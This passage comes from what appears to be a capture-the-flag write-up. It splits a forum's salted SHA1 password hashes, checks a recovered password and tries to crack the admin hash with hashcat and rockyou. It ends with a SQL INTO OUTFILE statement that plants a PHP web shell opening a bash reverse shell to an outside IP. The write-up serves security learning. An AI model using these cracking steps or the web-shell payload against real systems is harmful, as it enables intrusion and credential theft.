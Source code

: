 It seems like the first 40 characters are the hash, and the last 10 are the salt.

The forum uses the `sha1` algorithm. To know how to reverse it, we will try to get the hash from the password we found.

In the database the stored hash is : `0171e7dbcbf4bd21a732fa859ea98a2950b4f8aa1e5365dc90`

The hash is : `0171e7dbcbf4bd21a732fa859ea98a2950b4f8aa`, and the salt should be : `1e5365dc90`.

```sh
$ echo -n '!q\]Ej?*5K5cy*AJ1e5365dc90' | sha1sum
0171e7dbcbf4bd21a732fa859ea98a2950b4f8aa
```

Doing the same (reverse) operation with the `admin` user :

The hash is : `ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0`, and the salt is : `516d551c28`.

Let's try to use `rockyou.txt` wordlist along with `hashcat` to crack the password.

```sh
# Concatenate the salt to each word in the wordlist
# because I don't know how to do it with hashcat :^)
$ sed 's/$/516d551c28/' rockyou.txt > rockyou-salted.txt
$ hashcat -m 100 -a 0 -O -o cracked.txt ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0 rockyou-salted.txt
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0
Time.Started.....: Wed Nov 15 23:27:08 2023 (1 sec)
Time.Estimated...: Wed Nov 15 23:27:09 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (rockyou-salted.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 14646.4 kH/s (0.25ms) @ Accel:256 Loops:1 Thr:128 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14343901/14343901 (100.00%)
Rejected.........: 28307/14343901 (0.20%)
Restore.Point....: 14343901/14343901 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[30323536313432363535313664353531633238] -> $HEX[042a0337c2a156616d6f73210335313664353531633238]
Hardware.Mon.#1..: Temp: 31c Fan:  0% Util: 19% Core:2520MHz Mem:10501MHz Bus:16

Started: Wed Nov 15 23:27:03 2023
Stopped: Wed Nov 15 23:27:10 2023
```

Basically we took the L here, it's not in the wordlist.

# Getting a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.56.1/12345 0>&1\'") ?>' into outfile "/var/www/forum/templates_c/revshell.php"
```
